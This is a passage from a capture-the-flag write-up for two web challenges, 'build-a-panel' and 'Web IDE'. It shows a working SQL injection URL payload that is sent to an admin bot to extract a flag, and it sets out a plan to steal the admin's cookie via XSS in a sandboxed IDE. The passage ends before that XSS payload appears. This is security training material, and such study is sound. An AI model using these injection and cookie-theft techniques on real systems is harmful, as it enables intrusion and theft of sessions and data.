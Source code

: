 So what if we send the link having our SQL injection payload to the admin so it will be executed as the admin and we can bypass the following check 
```js
if(cookies['token'] && cookies['token'] == secret_token)
```

For the SQL injection part we will use the subqueries to create a widget in our panel with a title having the flag , our final payload that we will send to the admin bot is :
```
https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=<Your-Panel-ID>', (select flag from flag limit 1), '1');--&widgetname=a&widgetdata=a
```
And Bingo our beloved flag is there :D

![TASK](https://imgur.com/c51VGbR.png)

## Web IDE ##

The website is a simple IDE to run javascript code in a sandboxed environment, we have the source code as usual .

![TASK](https://imgur.com/z5jCnly.png)

After analysing the code we can notice that the flag is in the admin cookie so obviously our goal will be to steal it

```js
  case 'admin':
    if (password === adminPassword)
      return res.cookie('token', `dice{${process.env.FLAG}}`, {
        path: '/ide',
        sameSite: 'none',
        secure: true
      }).redirect('/ide/');
    break;
  }
  res.status(401).end();
```
The restrictions that are set up are the following:

```js
app.use('/', (req, res, next) => {
  res.setHeader('X-Frame-Options', 'DENY');
  return next();
});
// sandbox the sandbox
app.use('/sandbox.html', (req, res, next) => {
  res.setHeader('Content-Security-Policy', 'frame-src \'none\'');
  // we have to allow this for obvious reasons
  res.removeHeader('X-Frame-Options');
  return next();
});
```
I tried to think about a possible scenario in order to achieve xss, the first thing was to try to bypass the sandbox so let's take a look at its code in sandbox.js:
